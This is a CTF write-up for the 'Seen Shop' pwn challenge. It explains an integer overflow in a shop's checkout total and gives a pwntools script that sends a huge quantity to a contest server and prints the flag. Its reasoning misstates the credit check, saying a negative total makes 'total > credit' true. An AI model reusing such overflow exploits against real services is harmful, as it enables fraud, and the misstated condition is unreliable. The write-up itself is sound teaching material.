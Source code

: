 https://ctftime.org/event/2601

# Seen Shop (pwn)

## Analysis

We can see that in `checkout` we can get the flag provided that `total > credit` and `quantities[6] > 10`:

```c
if(total > credit){
    puts("Not enough credit.");
    exit(0);
}

if(quantities[6] > 10){
    puts("oh... pole ke mirize...");
    system("cat /flag");
}
```

Note that if `total` is negative then `total > credit` is `true`. 

We can see that in `checkout` the variable `total` is subject to overflow:

```c
int total = 0;
puts("Your Basket:");
for (int i = 0; i < NUM_SEENS; i++) {
    if (quantities[i] > 0) {
        printf("%s - %d item = %d Toman\n", seens[i].name, quantities[i], seens[i].price * quantities[i]);
        total += seens[i].price * quantities[i];
    }
}
```

This means that a large enough value in `quantities[i]` will cause `total` to become a negative number.

We can see that in `addToBasket` we can add essentially any number to `quantities[item - 1]`:

```c
printf("Enter quantity: ");
scanf("%d", &qty);
if (qty < 1) {
    puts("Invalid quantity.");
    return;
}
quantities[item - 1] += qty;
```

## Solution

1) Add a large quantity of item number 7 to the basket.
2) Checkout to get the flag.

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"

p = remote("164.92.176.247", 9000)

def add_to_basket(item, quantity):
    p.sendlineafter(b"choice: ", b"1")
    p.sendlineafter(b"add (1-7): ", str(item).encode())
    p.sendlineafter(b"quantity: ", str(quantity).encode())

def checkout():
    p.sendlineafter(b"choice: ", b"2")

add_to_basket(item=7, quantity=10000000000)
checkout()

p.readuntil(b"oh... pole ke mirize...\n")

print(p.readuntil(b"}").decode()) # FMCTF{61346013e4b1e77a2f1b3675abc62c62}
```

## Flag
`FMCTF{61346013e4b1e77a2f1b3675abc62c62}`

smiley 2025/03/16
